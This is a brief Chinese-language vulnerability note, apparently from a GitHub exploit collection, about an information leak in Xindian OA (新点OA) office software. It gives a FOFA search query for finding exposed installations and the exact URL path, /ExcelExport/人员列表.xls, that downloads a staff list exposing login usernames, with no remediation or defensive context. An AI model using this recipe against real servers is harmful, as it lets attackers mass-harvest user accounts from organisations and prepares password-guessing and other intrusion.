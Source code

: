 ## 0x00 漏洞背景

        新点OA访问特定的url可以获取网站登录特定的用户名信息
        
        
 ## 0x01 漏洞利用
 
       fofa搜索：app="新点OA"
 
       URL+/ExcelExport/人员列表.xls
       
       
       
      
      

![图片](https://user-images.githubusercontent.com/118274389/230259535-611e9e64-f5a5-4627-9584-9c9ece2c7a95.png)



